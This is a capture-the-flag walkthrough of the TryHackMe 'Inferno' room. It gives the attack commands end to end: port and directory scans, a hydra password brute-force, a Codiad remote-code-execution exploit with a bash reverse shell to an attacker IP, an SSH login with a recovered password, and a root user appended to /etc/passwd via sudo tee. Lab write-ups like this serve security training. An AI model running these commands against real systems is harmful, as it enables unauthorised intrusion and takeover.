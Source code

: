 # Inferno

**Room Link:** [https://tryhackme.com/r/room/inferno](https://tryhackme.com/r/room/inferno)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Hydra**

Since we have no information at this point we just try admin as the username

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-get "/inferno/" -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



After some digging we can see this is a codiad ide which has a RCE exploit

**Kali #1**

```
echo 'bash -c "bash -i >/dev/tcp/10.10.183.11/4445 0>&1 2>&1"' | nc -lnvp 4444
```

**Kali #2**

```
nc -nlvp 4445
```

**Kali #3**

```
searchsploit codiad
searchsploit -m multiple/webapps/49705.py
python3 49705.py http://admin:dante1@$VICTIM/inferno/ admin dante1 $KALI 4444 linux
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Autocomplete

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

**Victim**

```
cd /home/dante/Downloads
ls -lah
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/22 - SSH**

**Kali**

```
ssh dante@$VICTIM
Password: V1rg1l10h3lpm3
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"

su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

